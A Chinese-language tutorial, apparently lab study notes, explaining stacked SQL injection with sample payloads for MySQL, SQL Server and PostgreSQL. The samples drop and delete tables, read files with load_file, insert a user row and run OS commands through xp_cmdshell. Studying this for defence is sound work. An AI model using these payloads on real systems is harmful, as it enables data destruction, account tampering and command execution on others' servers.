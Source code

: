 # 十七、第三部分__page-3 Stacked injection Background-8 stacked injection

Stacked injections: 堆叠注入。从名词的含义就可以看到应该是一堆sql 语句（多条）一起执行。而在真实的运用中也是这样的，我们知道在mysql 中，主要是命令行中，每一条语句结尾加 ;   表示语句结束。这样我们就想到了是不是可以多句一起使用。这个叫做stacked injection。

### 0x01 原理介绍

在SQL 中，分号（;）是用来表示一条sql 语句的结束。堆叠注入是指构造利用 ; 后继续执行新命令的注入方式。

union  injection（联合注入）也是将两条语句合并在一起，但是union或者union all的语句类型通常只是查询而已。

EG示例 :
    
    # 用户注入： id=1;DELETE FROM products
    # 服务器未过滤，执行sql为：
    select * from products where id=1;DELETE FROM products
    
### 0x02 堆叠注入的局限性

堆叠注入并不是可以在每个环境下都可以执行，可能受到API或者数据库引擎不支持的限制，当前还有权限不足。

虽然堆叠注入可以执行任意命令，但是在web系统中，通常指返回一个查询结果，因此第二个语句可能会产生错误或者结果被忽略，在前端界面是无法看到返回结果的。

在堆叠注入前，我们也需要知道数据库相关信息，如表名、列名。

### 0x03 各个数据库实例介绍

- mysql数据库
```sql
    # 新增表成功：
    select * from users where id=1;create table test like users;  # 可以使用like关键字
    # 删除表成功：
    select * from users where id=1;drop table test;
    # 查询数据成功：
    select * from users where id=1;select 1,2,3;  # 会查询出两个select结果
    # 加载文件成功：
    select * from users where id=1;select load_file('c:/tmpupbbn.php');
    # 修改数据成功：
    select * from users where id=1;insert into users(id,username,password) values('100','new','new');
```

- sql server数据库
```sql
    # 新增数据表：
    select * from test;create table sc3(ss CHAR(8));
    # 删除数据表：
    select * from test;drop table sc3;
    # 查询数据：
    select 1,2,3;select * from test;
    # 修改数据：
    select * from test;update test set name='test' where id=3;
    # sqlserver中最为重要的存储过程：
    select * from test where id=1;exec master..xp_cmdshell 'ipconfig'  # 可注意：EXEC master.dbo.xp_cmdshell
```

- oracle数据库
```sql
    # oracle不支持堆叠注入，会直接报错无效字符
```

- postgresql数据库
```sql
    # 新增数据表成功：
    select * from user_test;create table user_data(id DATE);
    # 删除数据表成功：
    select * from user_test;delete from user_data;
    # 查询数据成功：
    select * from user_test;select 1,2,3;
    # 修改数据成功：
    select * from user_test;update user_test set name='modify' where name='张三';
```

